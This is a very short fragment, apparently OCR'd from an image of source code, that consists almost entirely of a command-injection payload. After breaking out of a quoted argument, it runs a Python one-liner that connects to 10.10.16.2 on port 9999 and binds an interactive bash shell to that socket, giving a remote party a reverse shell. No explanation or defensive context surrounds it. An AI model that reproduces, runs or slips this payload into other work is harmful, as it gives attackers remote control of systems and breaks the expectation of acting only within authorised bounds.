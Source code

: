 a';python3 -c 'a=__import__;b=a("socket").socket;c=a("subprocess").call;s=b();s.connect(("10.10.16.2",9999));f=s.fileno;c(["/bin/bash","-i"],stdin=f(),stdout=f(),stderr=f())';#
